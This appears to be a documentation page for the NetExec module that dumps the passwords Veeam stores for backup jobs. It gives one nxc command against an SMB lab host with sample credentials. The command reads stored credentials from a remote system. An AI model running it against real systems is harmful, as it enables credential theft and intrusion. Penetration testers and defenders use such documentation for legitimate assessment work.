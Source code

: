 ```yaml
---
description: Dump passwords used by Veeam for backup jobs
---
```


# Dump Veeam

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Veeam stores credentials for server and client used for backup jobs in a SQL database. In most configurations this SQL database is on the same system as the veeam server. If this is not the case the module might not work. Please open an issue on github if the module finds a veeam installation, but can't successfully extract credentials.

```bash
nxc smb 192.168.56.22 -u eddard.stark -p FightP3aceAndHonor! -M veeam
```

